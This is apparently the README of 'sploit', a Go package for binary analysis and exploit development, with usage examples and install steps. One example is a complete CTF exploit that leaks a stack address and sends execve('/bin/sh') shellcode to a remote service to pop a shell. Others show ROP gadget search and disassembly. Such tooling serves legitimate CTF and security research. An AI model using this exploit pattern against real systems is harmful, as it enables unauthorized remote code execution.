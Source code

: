 # sploit [![Build Status](https://travis-ci.org/zznop/sploit.svg?branch=master)](https://travis-ci.org/zznop/sploit)

Sploit is a Go package that aids in binary analysis and exploitation. The motivating factor behind the development of
sploit is to be able to have a well designed API with functionality that rivals some of the more common Python exploit
development frameworks while taking advantage of the Go programming language. Excellent cross-compiler support,
goroutines, powerful crypto libraries, and static typing are just a few of the reasons for choosing Go.

This project is inspired by pwntools and other awesome projects. It is still early in development. Expect for this
project to be focused heavily on shellcoding, binary patching, ROP stack construction, and general binary analysis.

#### Solution for a CTF Challenge

```go
package main;

import(
    sp "github.com/zznop/sploit"
)

var arch = &sp.Processor {
    Architecture: sp.ArchI386,
    Endian: sp.LittleEndian,
}

var scInstrs = `mov al, 0xb   /* __NR_execve */
                sub esp, 0x30 /* Get pointer to /bin/sh (see below) */
                mov ebx, esp  /* filename (/bin/sh) */
                xor ecx, ecx  /* argv (NULL) */
                xor edx, edx  /* envp (NULL) */
                int 0x80`

func main() {
    shellcode, _ := sp.Asm(arch, scInstrs)
    r, _ := sp.NewRemote("tcp", "some.pwnable.on.the.interwebz:10800")
    defer r.Close()
    r.RecvUntil([]byte("HELLO:"), true)

    // Leak a stack address
    r.Send(append([]byte("/bin/sh\x00AAAAAAAAAAAA"), sp.PackUint32LE(0x08048087)...))
    resp, _ := r.RecvN(20)
    leakAddr := sp.UnpackUint32LE(resp[0:4])

    // Pop a shell
    junk := make([]byte, 20-len(shellcode))
    junk = append(junk, sp.PackUint32LE(leakAddr-4)...)
    r.Send(append(shellcode, junk...))
    r.Interactive()
}
```

#### Compiling Assembly to Machine Code

```go
package main;

import(
    "github.com/zznop/sploit"
    "encoding/hex"
    "fmt"
)

func main() {
    instrs := "mov rcx, r12\n"              +
              "mov rdx, r13\n"              +
              "mov r8, 0x1f\n"              +
              "xor r9, r9\n"                +
              "sub rsp, 0x8\n"              +
              "mov qword [rsp+0x20], rax\n"

    arch := &sploit.Processor {
        Architecture: sploit.ArchX8664,
        Endian: sploit.LittleEndian,
    }

    opcode, _ := sploit.Asm(arch, instrs)
    fmt.Printf("Opcode bytes:\n%s\n", hex.Dump(opcode))
}
```

```
$ ./assemble_example
Opcode bytes:
00000000  4c 89 e1 4c 89 ea 49 c7  c0 1f 00 00 00 4d 31 c9  |L..L..I......M1.|
00000010  48 83 ec 08 48 89 44 24  28                       |H...H.D$(|
```

#### Disassembling Code in an ELF Executable

```go
package main;

import(
    "github.com/zznop/sploit"
    "fmt"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    vaddr := uint64(0x1135)
    count := 34
    fmt.Printf("Disassembling %v bytes at vaddr:%08x\n", count, vaddr)
    disasm, _ := elf.Disasm(vaddr, count)
    fmt.Print(disasm)
}
```

```
$ ./disassemble_example
Disassembling 34 bytes at vaddr:00001135
00001135: push rbp
00001136: mov rbp, rsp
00001139: sub rsp, 0x10
0000113d: mov dword ptr [rbp - 4], edi
00001140: mov qword ptr [rbp - 0x10], rsi
00001144: lea rdi, [rip + 0xeb9]
0000114b: call 0x1030
00001150: mov eax, 0
00001155: leave
00001156: ret
```

#### Querying and Filtering ROP Gadgets

```go
package main;

import(
    "github.com/zznop/sploit"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    rop, _ := elf.ROP()

    matched, _ := rop.InstrSearch("pop rbp")
    matched.Dump()
}
```

```
0000111f: pop rbp ; ret
0000111d: add byte ptr [rcx], al ; pop rbp ; ret
00001118: mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
00001113: call 0x1080 ; mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
000011b7: pop rbp ; pop r14 ; pop r15 ; ret
000011b3: pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011b2: pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011af: add esp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011ae: add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
...
```

## Dependencies

Some of Sploit's functionality relies on external dependencies. For instance, Sploit uses GCC's GAS assembler to
compile assembly code and capstone to disassemble compiled code as part of the API exposed by `asm.go`.

Install capstone:

```
git clone https://github.com/aquynh/capstone.git --branch 4.0.2 --single-branch
cd capstone
make
sudo make install
```

Install GCC cross-compilers. The following commands assume you are running Debian or Ubuntu on a Intel workstation
and may need changed if running another Linux distro:

```
sudo apt install gcc gcc-arm-linux-gnueabi gcc-aarch64-linux-gnu gcc-mips-linux-gnu \
  gcc-mipsel-linux-gnu gcc-powerpc-linux-gnu
```

If you would rather use docker, an image containing the external dependences is on
[Docker Hub](https://hub.docker.com/repository/docker/zznop/sploit). Pull it with the following command:

```
docker pull zznop/sploit:latest
```
